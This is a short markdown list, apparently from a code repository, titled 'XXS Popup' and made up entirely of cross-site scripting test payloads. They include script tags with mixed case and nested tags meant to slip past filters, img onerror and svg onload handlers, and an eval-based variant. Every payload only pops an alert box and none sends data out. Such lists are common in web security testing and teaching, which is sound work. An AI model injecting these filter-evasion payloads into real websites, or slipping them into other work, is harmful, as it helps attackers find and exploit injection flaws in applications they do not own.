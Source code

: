# Payloads
## XXS Popup:
- <script>alert("XSS");</script>
- <script>alert(‘XSS’);</script>
- <script>alert(‘XSS’)</script>
- <<script>alert("XSS");//<</script>
- <sCripT>alert("XSS")</scRipt>
- <scr<script>ipt>alert('XSS')</script>
- <sCripT>alert('XSS')</scRipt>
- <img src="/" onerror="alert('XSS')"/>
- <img src=x onMouseOver=alert('XSS')>
- <svg/onload=eval("ale"+"rt")(`XSS${alert`XSS`}`)>
- <img src='nevermind' onerror="alert('XSS');" />
- << script>alert("XSS");//<</ script>
- <svg/onload=alert('XSS')>
- div.innerHTML = '<script deferred>alert("XSS");</script>';
- <img src="aaa" onerror=alert('xxs')>
- <body onload="alert('XSS')">
